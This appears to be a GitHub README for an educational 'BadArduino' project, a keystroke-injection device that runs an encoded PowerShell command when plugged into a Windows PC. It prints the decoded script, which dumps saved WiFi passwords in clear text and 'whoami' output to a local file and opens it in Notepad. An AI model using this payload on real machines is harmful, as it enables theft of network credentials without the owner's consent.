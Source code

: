 
# BadArduino: Executing Commands on Windows with Arduino

This project is a demonstrative example of how to use an Arduino device to send predefined commands to a computer. The code shows how to simulate keystrokes and send commands to PowerShell using Arduino's keyboard emulation capabilities, with the `Keyboard.h` library.

⚠️ **WARNING**: This code is purely for illustrative and educational purposes. Misuse of such techniques may violate the law or security policies. Use this project only in a controlled environment and with the device owner's consent.

---

## Code Features

This code uses an Arduino (e.g., Arduino Leonardo or another device capable of keyboard emulation [`ATmega32u4 chip`]) to:
1. Open PowerShell using the Windows shortcut `Win + R`.
2. Execute a Base64-encoded PowerShell command, which is decoded and explained below.

> **Note:** Make sure to use the appropriate keyboard layout library for the target PC’s language. For example, `Keyboard_it_IT.h` for Italian, or another layout file that matches the intended language. This ensures that the keys are correctly interpreted on the destination system.

---

## Decoding the `EncodedCommand` Command

The Base64 encoded string executes a PowerShell command that collects various system information. Here is the original command:

```powershell
$filePath = "$env:USERPROFILE\test.txt";
$wifiProfiles = netsh wlan show profiles | Select-String "All user profiles" | ForEach-Object { ($_ -split ": ")[1].Trim() };
$output = "";
$wifiProfiles | ForEach-Object { $profile = $_; $profileInfo = netsh wlan show profile name="$profile" key=clear; $password = ($profileInfo | Select-String "Key Content").replace('^.*:\s*', ''); if (!$password) { $password = "N/A" }; $output += "Profile: $profile\nPassword: $password\n"; };
$userInfo = whoami;
$output += "`nUser Info: $userInfo`n";
$output | Out-File -FilePath $filePath;
notepad $filePath
```

This command saves a `test.txt` file containing information about WiFi profiles and other user information in the user's folder (`$env:USERPROFILE`).

---

## Execution Demo

When you connect the Arduino device, it automatically executes the programmed sequence as shown in the demo image ([Demo](https://github.com/nemmusu/badarduino/blob/main/example/demo.gif)). The GIF demonstrates how the Arduino opens PowerShell and runs commands to collect information, storing it in a text file, which then opens in Notepad.

